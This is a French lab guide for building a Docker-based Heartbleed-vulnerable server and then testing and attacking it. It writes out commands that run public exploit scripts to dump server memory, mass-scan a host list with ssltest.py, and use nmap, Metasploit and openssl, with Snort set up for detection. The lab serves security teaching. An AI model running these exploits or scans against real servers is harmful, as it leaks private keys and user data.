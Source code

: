 #### Récapitulatif exploiter la faille/ tester la vulnérabilité

- attaque via metasploit msfconsole
- usage de nmap avec le module ssl-heartbleed
- script
    - ssltest.py
    - heartbleed.py
    - [fox](http://blog.fox-it.com/wp-content/uploads/2014/04/fox_heartbleedtest.zip)
    - [pacemaker.py](https://github.com/Lekensteyn/pacemaker)
- tester via openssl_client 
- tester avec un ids/idps
-  heartbleeder *paquetage linux*



##### prérequis 
- outils :
    - Attaquant
        - git 
        - docker:
            - docker-ce
            - docker-compose
        - docker
    - Pentester :
        - Quasiment tout les fichiers sauf heartbleeder
            - git    
        - stimulate-server.py -- heartbleed.py -- ssltest.py
            - python:
                - python1-2
                - python3
        - Linux Debian distributions
            - heartbleeder
    - Détecteur :
        - snort

#### Mise en place via les scripts :
- Un serveur sera le serveur vulnérable 
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-server.sh
- Un client sera le client lambda ou pentester *test de sécurité*
    - On lance le script : chmod +x ../bash/*.sh && ../bash/heartbleed-vulnerable-pentest.sh
-  On configure les hostslist et les adresses IP sur les serveurs ou en les récupérant 
> [!NOTE]
> $ip correspond à l'adresse IP du serveur vulnérable si le serveur

##### Mise en place du serveur vulnérable :
-  Installation de Docker
`chmod +x && ./install-docker.sh  && sudo apt-get install -y docker-compose`

- Installation du serveur vulnérable avec un docker-compose.yml
```bash
sudo apt-get update -y && sudo apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git

cd heartbleed-example
sudo docker-compose up
```

> [!NOTE]
> A readme file is in : ./markdown/heartbleed-example/README.md
> The project is delivered with :
> Un docker-compose pour lancer le serveur vulnérable
> Un programme pour injecter de la donnée : `stimulate_server.py`
> Un script pour exploiter : `heartbleed.py` : dump le contenu du serveur et teste si le serveur est vulnérable (outil principal)


### Mise en place du serveur pentest :

#### Injecter de la donnée / stimuler le serveur cible

```bash
sudo apt-get update -y && sudo apt-get install -y python
git clone https://github.com/injcristianrojas/heartbleed-example.git
cd heartbleed-example


chmod +x stimulate_server.py
python stimulate_server.py -a $ip
```


#### Pentest :
- Voici les principales étapes : lors de l'installation des outils :
    - Tester avec un outil de pentest :
        - install git
        - clone and cp repo
        - config hostlist
        - test

-  HEARTBLEED : *Dump la RAM*
    - script heartbleed.py
    
    ```bash
        sudo apt-get update -y && sudo apt-get install -y python
        git clone https://github.com/injcristianrojas/heartbleed-example.git
        cd heartbleed-example


        chmod +x heartbleed.py
        python heartbleed.py $ip -p 443
        python heartbleed.py $ip -p 443 -v -n 50
    ```


- Paquetage linux heartbleeder : *Check*

```bash
sudo apt-get update -y && sudo apt-get install -y heartbleeder && sudo apt-get autoremove -y
heartbleeder $ip:443
```


-  Usage du script ssltest.py : *Check*

```bash
sudo apt-get update -y && sudo apt-get install -y python
sudo apt-get update -y && sudo apt-get install -y git 
git clone https://github.com/tdussa/heartbleed-masstest.git
cd heartbleed-masstest
nano hostlist.txt && chmod +x ssltest.py
./ssltest.py --ports "443, 993, 995, 44330" hostlist.txt
```

- tester via openssl_client *Check and dump*

```bash
openssl s_client -connect $ip:44330 -tlsextdebug | grep "TLS server extension"
```


- mais au préalable
    - mise en place du serveur vulnérable depuis le serveur docker ou un autre serveur
    ```bash
    openssl s_server -key /etc/ssl/private/apache-selfsigned.key -cert /etc/ssl/certs/apache-selfsigned.crt -accept 44330 -www
    ```


#### attaque :
- attaque via metasploit msfconsole
../bash/msf/metasploit_heartbleed.sh
- usage de nmap avec le module ssl-heartbleed
etudiant@debian-buster:~/heartbleed-example$ sudo nmap -p 443 --script ssl-heartbleed 192.168.1.173





==============================================================================================
### mise en place du serveur vulnérable sur Windows
- En cas de problème de ports :
    ```powershell
    netstat -aon | find ":443"
    tasklist /SVC /FI "PID eq 15524"
    ```
    
   *tuer le processus ex: VMWARE*


======================
#####  Mise en place de snort
<!-- - launch sol2
    - Select Save from the bar on top and close the file. At this point, Snort is ready to run.   
    Except, it doesn’t have any rules loaded. To verify, run the following command:    
    `sudo snort -T -i eth0 -c /etc/snort/snort.conf`
    - Now, let’s start Snort in IDS mode and tell it to display alerts to the console:
    `sudo snort -A console -q -c /etc/snort/snort.conf -i eth0` -->





======================
pentester :
git clone https://github.com/mpgn/heartbleed-PoC.git && cd heartbleed-PoC && python heartbleed-exploit.py 192.168.1.173


cat out.txt